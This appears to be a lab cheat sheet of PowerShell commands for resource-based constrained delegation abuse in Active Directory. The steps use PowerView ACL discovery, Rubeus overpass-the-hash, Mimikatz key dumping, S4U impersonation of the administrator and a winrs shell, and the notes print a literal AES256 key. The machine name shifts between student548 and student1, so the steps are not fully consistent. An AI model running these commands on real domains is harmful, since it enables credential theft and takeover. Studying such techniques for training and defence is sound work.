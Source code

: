 **Local admin privileges to the foothold/attacker machine are required due to the need of a machine hash**

Find that a compromised user has `Write` permissions over a machine (PowerView)
```powershell
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

Shell as user with `Write` permissions - `ciadmin` - OPtH
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:ciadmin /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

As `ciadmin`, add your foothold machine that you have local admin privileges to  the`PrincipalsAllowedToDelegateToAccount` (PowerView + AD Module)
```powershell
Set-DomainRBCD -Identity dcorpmgmt

$comps = 'dcorp-student548$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
```

Obtain foothold/attacker machine machine hash (`dcorp-student548$`)
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

Obtain ticket as machine account (`dcorp-student548$`) to access "second hop machine" (`dcorp-mgmt`)  as **ANY** user in the domain.
```powershell
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```

```powershell
winrs -r:dcorp-mgmt cmd.exe
```
